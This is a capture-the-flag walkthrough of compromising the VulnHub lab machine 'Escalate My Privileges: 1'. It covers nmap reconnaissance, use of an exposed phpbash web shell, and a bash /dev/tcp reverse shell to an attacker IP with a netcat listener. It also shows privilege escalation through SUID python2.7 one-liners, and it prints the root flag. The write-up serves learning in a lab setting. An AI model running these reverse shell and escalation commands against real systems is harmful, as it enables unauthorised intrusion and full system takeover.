 
<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - Escalate My Privileges: 1</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>27.09.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy / Beginner Level</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Privilege Escalation</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595 - Active Scanning</b></td>
      <td>Scanning the target system. Identifying open ports and services</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1190 - Exploit Public-Facing Application</b></td>
      <td>gaining access to the system through a public page with a web shell</td>
    </tr>
    <tr>
      <td align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1083 - File and Directory Discovery</b></td>
      <td>Detecting a potentially dangerous executable file with the SUID bit set as root</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548 - Abuse Elevation Control Mechanism</b></td>
      <td>exploiting an executable file with the SUID bit set</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{628435356e49f976bab2c04948d22fe4}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> We load the image of the vulnerable machine into `virtualbox`:

<p align="center">
 <img src="./screenshots/virtualbox.png" alt="virtualbox" />
</p>

> IP address of the machine being attacked - `192.168.50.149`

---
## 🕵️  Reconnaissance

> We start scanning the machine for open ports and services using `nmap` in two stages:

```bash

sudo nmap -p- -vv -T5 --min-rate=1000 192.168.50.149 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -vv -A -n 192.168.50.149 -oN full_scan_results

```
```bash

Discovered open port 111/tcp on 192.168.50.149
Discovered open port 22/tcp on 192.168.50.149
Discovered open port 80/tcp on 192.168.50.149
Discovered open port 20048/tcp on 192.168.50.149
Discovered open port 2049/tcp on 192.168.50.149

```
```bash

22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 1 disallowed entry
|_/phpbash.php
|_http-title: Check your Privilege

```
> From the scan results I see some interesting open ports:

- `22 (ssh)` - used for ssh connections (OpenSSH 7.4);
- `80 (web/http)` - web server is running (Apache 2.4.6);

> Open the resource in the browser:

<p align="center">
 <img src="./screenshots/web.png" alt="web" />
</p>

> Just a picture. Nothing interesting.

> The scan revealed the presence of the page `/phpbash.php` in `robots.txt`. This can also be seen by manually navigating to `/robots.txt` in the browser:

<p align="center">
 <img src="./screenshots/robots_txt.png" alt="robots_txt" />
</p>

<p align="center">
 <img src="./screenshots/nmap_robots.png" alt="nmap_robots" />
</p>

---
## 🔓 Initial Access

> Navigate to `/phpbash.php` in the browser and you’ll see a `web-based command shell` running with the privileges of the `apache` user:

<p align="center">
 <img src="./screenshots/apache_shell.png" alt="apache_shell" />
</p>

> For convenience, we forward the reverse shell to our system:

```bash

bash -c 'bash -i >& /dev/tcp/192.168.50.127/4444 0>&1'

```
```bash

nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 192.168.50.149 38824
bash: no job control in this shell

bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.2$

```
> We are upgrading this shell to `pty` (`pseudo`):

```bash

bash-4.2$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ ^Z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
---
## 🔑⬆️    Vertical Privilege Escalation

> Let's list files with the `SUID` bit set:

```bash

bash-4.2$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```
<p align="center">
 <img src="./screenshots/suid_python.png" alt="suid_python" />
</p>

> I see a `python2.7` executable with the `SUID` bit set running as `root`. This is a potential vector for `privilege escalation`.

> [!IMPORTANT]
`SUID (Set User ID)` — This is a special permissions bit that can be set on an executable file in Linux. When a file with SUID set is executed, it
runs with the permissions of the file's owner, not the user who executed it.

> Next, either go to `gtfobins` and get the command to get the root's `EUID` from there:

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
sh-4.2# id
uid=48(apache) gid=48(apache) euid=0(root) groups=48(apache)

```
> Or we manually write a one-liner in `python` to get `full root`, setting the `UID` of the current process to `0` (that is, `root`):

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")
[root@my_privilege html]# id
uid=0(root) gid=48(apache) groups=48(apache)

```
> In both cases, we obtain root privileges and get the `root flag` in the directory - `/root`:

```bash

[root@my_privilege root]# cd /root
[root@my_privilege root]# ls
proof.txt
[root@my_privilege root]# cat proof.txt
Best of Luck
628435356e49f976bab2c04948d22fe4
[root@my_privilege root]#

```
> root flag - `628435356e49f976bab2c04948d22fe4`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>628435356e49f976bab2c04948d22fe4</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> [!NOTE]
During the attack on the `Escalate My Privileges: 1` system, a network scan revealed an insecure publicly accessible page at `/phpbash.php`, which provided a web-based command shell
running with the privileges of the `apache` user. This allowed for `Initial Access` to the system by establishing a reverse shell to the attacker's machine.
Subsequent local `Enumeration` identified a potentially dangerous executable `python2.7` with the `SUID` bit set and owned by `root`. This led to full system compromise by leveraging a
one-liner in python to `Escalate Privileges`.
